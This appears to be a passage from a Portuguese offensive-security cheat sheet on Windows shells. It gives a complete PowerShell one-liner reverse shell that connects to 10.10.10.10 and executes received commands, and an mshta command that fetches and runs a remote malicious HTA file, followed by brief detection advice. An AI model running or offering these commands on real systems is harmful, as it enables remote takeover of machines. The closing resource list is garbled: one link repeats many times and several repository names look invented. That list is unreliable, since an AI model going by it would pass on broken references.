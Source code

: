 Processo realizando chamada de rede: **svchost.exe**\
Carga gravada no disco: **Cache local do cliente WebDAV**

**Em uma linha:**
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
O comando `mshta` é uma ferramenta do Windows que permite executar arquivos HTML como aplicativos. Essa funcionalidade pode ser explorada por hackers para executar código malicioso no sistema alvo. O `mshta` pode ser usado para contornar as restrições de segurança do Windows e executar comandos arbitrários.

### Sintaxe

```
mshta <URL>
```

### Exemplo

```
mshta http://www.example.com/malicious.hta
```

Neste exemplo, o `mshta` é usado para executar o arquivo `malicious.hta` hospedado no site `www.example.com`. O arquivo `malicious.hta` pode conter código malicioso que será executado no sistema alvo.

### Detecção e Prevenção

Devido à natureza maliciosa do `mshta`, é importante tomar medidas para detectar e prevenir seu uso indevido. Algumas medidas que podem ser tomadas incluem:

- Manter o sistema operacional e os aplicativos atualizados com as últimas correções de segurança.
- Utilizar soluções de segurança, como antivírus e firewalls, para detectar e bloquear atividades maliciosas.
- Restringir o acesso a sites não confiáveis e evitar clicar em links suspeitos.
- Monitorar o tráfego de rede em busca de atividades suspeitas.

### Recursos Adicionais

Para obter mais informações sobre diferentes shells do Powershell, consulte os seguintes recursos:

- [PowerShell Empire](https://github.com/EmpireProject/Empire)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Msfvenom](https://www.metasploit.com/)
- [Powershell-C2](https://github.com/PowerShellEmpire/Empire)
- [Powershell-AD-Recon](https://github.com/sense-of-security/PowerShell-AD-Recon)
- [Powershell-AD-Privilege-Escalation](https://github.com/sense-of-security/PowerShell-AD-Privilege-Escalation)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Exploitation](https://github.com/sense-of-security/PowerShell-AD-Exploitation)
- [Powershell-AD-Post-Exploitation](https://github.com/sense-of-security/PowerShell-AD-Post-Exploitation)
- [Powershell-AD-Deception](https://github.com/sense-of-security/PowerShell-AD-Deception)
- [Powershell-AD-Defence](https://github.com/sense-of-security/PowerShell-AD-Defence)
- [Powershell-AD-Reporting](https://github.com/sense-of-security/PowerShell-AD-Reporting)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)
- [Powershell-AD-Enumeration](https://github.com/sense-of-security/PowerShell-AD-Enumeration)